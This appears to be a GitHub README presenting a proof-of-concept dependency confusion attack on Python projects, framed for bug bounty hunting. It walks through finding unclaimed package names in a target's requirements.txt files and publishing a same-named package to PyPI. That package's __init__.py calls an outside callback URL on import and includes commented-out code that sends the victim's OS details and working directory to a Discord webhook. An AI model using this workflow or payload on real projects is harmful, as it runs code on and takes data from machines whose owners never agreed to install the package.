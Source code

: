 <h1 align="center">
    <a href="https://www.youtube.com/@techghoshal"><img src="https://github.com/techghoshal/Fix-Grub-Boot-Menu/assets/85815644/26ed3a3f-a1e6-452c-b2ac-cac5c3d7478e"></a>
 <br>
<h1 align="center">Python Dependency Confusion Attacks POC
<p align="center"><img alt="Twitter Follow" src="https://img.shields.io/twitter/follow/techghoshal?style=social"></p>
</h1>


## How to Finds & How to Exploit

Finds requirement.txt then check the all dependency here is public or not

`https://pypi.org/project/pip/`

- Download all target repo in github
- Crate token:- https://github.com/settings/tokens

```bash
$ ghorg clone <target> -t <token>
```
- After Download all repo 

```bash 
$ find . -type f -name requirements.txt | xargs -n1 -I{} cat {} | cut -d ">" -f 1 | cut -d " " -f 1 |  sort -u | cut -d "=" -f1 | xargs -n1 -I{} echo "https://pypi.org/project/{}/" | httpx -status-code -silent -content-length -mc 404
```
- 404 code means this package not available publicly So This the vulnerable to dependencies confusion.

- Publish this python packages publicly (https://pypi.org)

```bash
$ mkdir <package-name>
```
```bash
$ cd <package-name>
```
```bash
$ mkdir <package-name> 
```
```bash
$ cd <package-name>
```
```bash
$ touch __init__.py 
```

```bash
# python package dependency confiuse vulnerability POC 
# name: techghoshal
# e-mail: techghoshal@gmail.com
# Impact this vulnerability: Remote code execution(RCE)


from discord import SyncWebhook
import requests
import os

## canarytokens_url OR burp collaborator URL
requests.get("canarytokens_url")

## Send target info to your discord server 
#webhook = SyncWebhook.from_url("<discord_webhook_url>")

#osname =  os.uname()
#cwd = os.getcwd()

#webhook.send(f"OS-Info: {osname}")
#webhook.send(f"Current-DIR: {cwd}")
```

- Save this file

```bash
$ cd .. 
```
```bash
$ touch setup.py
```

```bash 
from setuptools import setup, find_packages
import codecs
import os

here = os.path.abspath(os.path.dirname(__file__))

with codecs.open(os.path.join(here, "README.md"), encoding="utf-8") as fh:
    long_description = "\n" + fh.read()

VERSION = '0.0.1'
DESCRIPTION = 'Dependency confiuse Attack'
LONG_DESCRIPTION = 'Python package dependency confiuse vulnerability POC. Impact this vulnerability is Remote code execution (RCE)'

# Setting up
setup(
    name="Python_dependency_confusion_attacks",
    version=VERSION,
    author="techghoshal",
    author_email="techghoshal@gmail.com",
    description=DESCRIPTION,
    long_description_content_type="text/markdown",
    long_description=long_description,
    packages=find_packages(),
    install_requires=['requests', 'discord'],
    keywords=[]
   )
```
- Save this file

```bash
$ touch README.md
```
```bash
<h1 align="center">This Python package vulnerable to dependency confusion vulnerability</h1>
```
- Save this file

- Build package
```bash
$ python3 setup.py sdist bdist_wheel
```

- Upload file publicly(https://pypi.org)

- Create Accont on pypi.org

```bash
$ pip3 install twine
```
```bash
$ twine upload dist/*
```

- Enter your username: <username>
- Enter your password: <password>

---
##### Upload IS DONE 😎 
##### 🎉 Now Bounty Time 💰💰


